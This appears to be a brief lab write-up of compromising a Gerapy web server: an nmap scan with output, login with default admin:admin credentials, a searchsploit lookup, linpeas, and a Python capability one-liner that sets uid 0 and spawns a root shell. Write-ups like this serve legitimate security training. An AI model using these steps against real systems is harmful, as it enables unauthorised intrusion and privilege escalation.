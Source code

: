 #Pwned! 
```IP
192.168.204.24
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.204.24 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
8000/tcp open  http-alt syn-ack ttl 61 WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
| http-methods:
|_  Supported Methods: GET OPTIONS
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

## HTTP

Searching for WSGIServer/0.2 CPython/3.10.6

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

page not found
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102006.png?raw=true)

/admin
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102203.png?raw=true)

admin:admin let us in

adding some clients and tokens

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102403.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102447.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102711.png?raw=true)

With this we can access the site

we could access it even with admin:admin

```
searchsploit gerapy
```
returns an exploit that works as follows:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924115623.png?raw=true)

# PrivEsc

## Manual
## Automated

### Peass

linpeas into

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924121413.png?raw=true)
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities
```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924121037.png?raw=true)


### Mimikatz


